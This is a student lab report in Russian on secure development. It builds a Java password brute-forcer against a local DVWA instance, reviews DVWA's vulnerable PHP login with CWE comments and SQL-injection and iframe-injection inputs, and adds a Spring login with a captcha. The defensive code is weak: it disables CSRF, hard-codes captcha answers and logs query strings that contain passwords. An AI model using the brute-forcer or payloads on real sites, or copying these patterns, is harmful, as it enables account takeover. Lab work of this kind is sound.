# SDLC_Lab_3
Практика №3 по "Разработке безопасного программного обеспечения"

1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

  Для перебора паролей для начала необходимо размернуть приложение DVWA. Развернем его в Docker, для этого необходимо перейти в папку /DVWA-master и выполнить команду `docker compose up` в терминале. \
   \
  Перейдем по адресу `localhost:4280` в браузере. \
   \
  Перейдем на форму, которая является переборщика. \
   \
  Выполним успешный ввод данных. \
   \
  Обратим внимание на сообщение, которое выводится при успешном вводе, а также на то, в какой форме производится запрос.\
    \
  Выполним неудачный ввод данных и так же обратим внивание на сообщение. \
    \
  На основе полученной информации разработаем переборщик паролей на языке программирования Java. Программа будет работать в многопоточном режиме. Для перехода к форме, которую необходимо взломать необходимо авторизоваться на сайте. Напишем для этого функцию.
  ```Java
        private void loginToDVWA() throws IOException {
            String loginPageUrl = "http://localhost:4280/login.php";
            String username = "admin";
            String password = "password";
            String csrfToken;

            Request loginPageRequest = new Request.Builder()
                .url(loginPageUrl)
                .get().build();

            try (Response response = client.newCall(loginPageRequest).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                String substringForBeginInd = "name='user_token' value='";
                int begInd = html.indexOf(substringForBeginInd);
                int endInd = html.indexOf("' />\r\n\r\n\t</form>");
                csrfToken = html.substring(begInd + substringForBeginInd.length(), endInd);
            }

            RequestBody formBody = new FormBody.Builder()
                .add("username", username)
                .add("password",  password)
                .add("Login", "Login")
                .add("user_token", csrfToken)
                .build();
            Request loginRequest = new Request.Builder()
                .url(loginPageUrl)
                .post(formBody)
                .build();

            try (Response response = client.newCall(loginRequest).execute()) {
                assert response.body() != null;
            }
        }
```
  Алгоритм программы будет выполнять попытку аутентификации по адресу, который был обнаружен раннее `http://localhost:4280/vulnerabilities/brute/?username=admin&password=%s&Login=Login`. Переборщик анализирует html, который приходит в ответ и ищет сообщение об успешном входе или провале. Функция для попытки аутентификации выглядит следующим образом:
  ```Java
private boolean makeAttemptToLogin(String password) throws IOException {
            String loginPage = BASE_URL + "/brute/?username=admin&password=%s&Login=Login"
                .formatted(password);

            Request loginAttempt = new Request.Builder()
                .url(loginPage)
                .get()
                .build();

            try (Response response = client.newCall(loginAttempt).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                if (html.contains("Username and/or password incorrect.")) {
                    return false;
                } else if (html.contains("Welcome to the password protected area admin")) {
                    return true;
                } else {
                    Thread.sleep(2000);
                    makeAttemptToLogin(password);
                    return false;
                }
            } catch (InterruptedException e) {
                throw new RuntimeException(e);
            }
        }
```
Пароли извлекаются из файла и поочереди используются в запросах. Запустим переборщик. \
 \
Таким образом переборщик справился за 21 секунду. \


2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных cwe.mitre.org)

Проанализируем код и в комментариях укажем слабые места.
```PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {

	$user = $_GET[ 'username' ];

	$pass = $_GET[ 'password' ];
    //CWE-327 Use of a Broken or Risky Cryptographic Algorithm. Не рекомендуется использование таких старых алгоритмов хеширования как MD4, MD5, SHA1, DES, так как их значительно легче сломать, чем современные
	$pass = md5( $pass ); 

    //CWE-89 'SQL Injection'. В username можно ввести "admin' OR '1'='1", что позволит войти с любым паролем
	$query  = "SELECT * FROM `users` WHERE user = 'admin' AND password = '$pass';";
    //CWE-200 Exposure of Sensitive Information to an Unauthorized Actor. В случае ошибки выполнения запроса пользователю выводится фрагмент внутреннего устройства кода, что может быть использовано злоумышленниками
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {

		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

        //CWE-79 'Cross-site Scripting'. Прямое использование значения в html разметке без предварительной обработки может привести к внедрению html тегов пользователями на веб-странице.
        //Например, в комбинации с CWE-89 в страницу можно внедрить плеер из Яндекс Музыки введя в username: admin' OR '<iframe frameborder="0" allow="clipboard-write" style="border:none;width:100%;height:210px;" width="100%" height="210" src="https://music.yandex.ru/iframe/track/71237781/12115632">Слушайте <a href=\'https://music.yandex.ru/album/12115632/track/71237781\'>No Gods</a> — <a href=\'https://music.yandex.ru/artist/5704222\'>FREE FLOW FLAVA</a> на Яндекс Музыке</iframe>
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "";
	}
	else {

		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```

3. Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa.

Разработаем систему авторизации с использованием Java Spring MVC. Конфигурация Spring Security выглядит следующим образом
```Java
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        return http
            .authorizeHttpRequests(authorizationManagerRequestMatcherRegistry -> authorizationManagerRequestMatcherRegistry
                .requestMatchers("/login").permitAll()
                .requestMatchers("/img/**").permitAll()
                .anyRequest().authenticated())
            .formLogin(customizer -> customizer
                .loginPage("/login")
                .permitAll())
            .csrf(AbstractHttpConfigurer::disable)
            .build();
    }
```
Здесь указывается, что любые запросы, начинающие с /login или /img доступны всем, а все остальные запросы доступны только авторизованным пользователям. Также указывается адрес страницы логина, и отключается csrf защита. \
Реализуем страницу входа. \
 \
В качестве защиты от перебора реализуем примитивную каптчу. При достижении лимита попыток (5), программа будет требовать ввести код с картинки. \
 \
Код, обрабатывающий запросы для авторизации выглядит следующим образом.
```Java
private final AuthenticationManager authenticationManager;
    private static final Random random = new Random();
    private static final Map<String, String> CAPTCHA_VALUE = Map.of("1", "DVWA", "2", "1_42L", "3", "MIREA", "4", "SECURE", "5", "58VK");
    private static final Map<String, Long> SESSION_LOGIN_TRIES = new HashMap<>();
    private static final Map<String, String> SESSION_CAPTCHA = new HashMap<>();
    private static final int TRIES_LIMIT = 5;
    private static final String IS_CAPTCHA_ATTR = "isCaptcha";
    private static final String CAPTCHA_NUM_ATTR = "captchaNum";
    private static final String LOGIN_MESSAGE_ATTR = "loginMessage";

    @GetMapping("/login")
    public String login(@RequestParam(required = false) String username,
        @RequestParam(required = false) String password,
        @RequestParam(name="Login", required = false) String login,
        @RequestParam(name="captcha", required = false) String captchaValue,
        HttpServletRequest request, Model model) {

        System.out.println("Incoming request: " + request.getQueryString());

        HttpSession session = request.getSession(true);
        var sessionId = session.getId();

        if (username == null || password == null || login == null) {
            return "login";
        }

        if (SESSION_CAPTCHA.containsKey(sessionId)) {
            model.addAttribute(IS_CAPTCHA_ATTR, true);
            model.addAttribute(CAPTCHA_NUM_ATTR, SESSION_CAPTCHA.get(session.getId()));
        }

        UsernamePasswordAuthenticationToken authToken = new UsernamePasswordAuthenticationToken(username, password);

        Authentication authentication;
        try {
            authentication = authenticationManager.authenticate(authToken);
        } catch (AuthenticationException e) {
            SESSION_LOGIN_TRIES.put(session.getId(), 1 + SESSION_LOGIN_TRIES.getOrDefault(session.getId(), 0L));
            if (SESSION_LOGIN_TRIES.get(sessionId) > TRIES_LIMIT) {
                model.addAttribute(IS_CAPTCHA_ATTR, true);
                var captchaNum = random.nextInt(1, 6) + "";
                SESSION_CAPTCHA.put(sessionId,  captchaNum);
                model.addAttribute(CAPTCHA_NUM_ATTR, captchaNum);
            }
            model.addAttribute(LOGIN_MESSAGE_ATTR, "Username and/or password incorrect.");
            return "login";
        }
        if (SESSION_CAPTCHA.containsKey(session.getId()) && (captchaValue == null || !captchaValue.equals(CAPTCHA_VALUE.get(SESSION_CAPTCHA.get(sessionId))))) {
            return "login";
        }
        SESSION_LOGIN_TRIES.put(session.getId(), 0L);
        SESSION_CAPTCHA.remove(session.getId());
        model.addAttribute(IS_CAPTCHA_ATTR, false);
        model.addAttribute(LOGIN_MESSAGE_ATTR, "Welcome to the password protected area admin");
        SecurityContextHolder.getContext().setAuthentication(authentication);

        session.setAttribute("SPRING_SECURITY_CONTEXT", SecurityContextHolder.getContext());

        return "login";
    }
```
Попробуем перебрать пароли с помощью раннее написанного переборщика паролей. Для этого запустим его с аргументом в командной строки, который указывает базовый url `http://localhost:8080/login` \
 \
Можно заметить, что переборщик уже давно прошел нужную комбинацию, которая должна быть по номеру ~12.000, потому что большая часть запросов сервер не принимает, так как переборщик не вводит капчу.
